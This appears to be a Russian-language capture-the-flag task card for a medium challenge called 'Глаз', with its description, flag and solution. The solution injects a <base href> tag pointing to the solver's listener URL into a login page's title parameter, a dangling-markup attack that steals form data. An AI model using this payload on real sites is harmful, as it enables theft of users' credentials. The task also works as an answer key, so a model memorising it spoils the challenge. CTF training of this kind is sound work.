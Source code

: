 # Глаз
## Сложность
Medium

## Описание
В расследовании недавнего преступления мы опробовали нашу новейшую автоматизированную информационную систему розыска преступников "Глаз". Работает как часы, но вот название так себе, правда? Там сейчас как принимают предложения о новом названии, может поучаствуешь?

**!Участникам нужно выдать содержимое папки public/!**

## Решение:
https://book.hacktricks.xyz/pentesting-web/dangling-markup-html-scriptless-injection#stealing-forms  
Скормить черкеру ссылку такого вида:  
`http://taskurl:8081/login?title=<base href="your_listener_url">`



## Флаг
CTF{D4ngl1ng_M4rkup_Inj3ct10n}
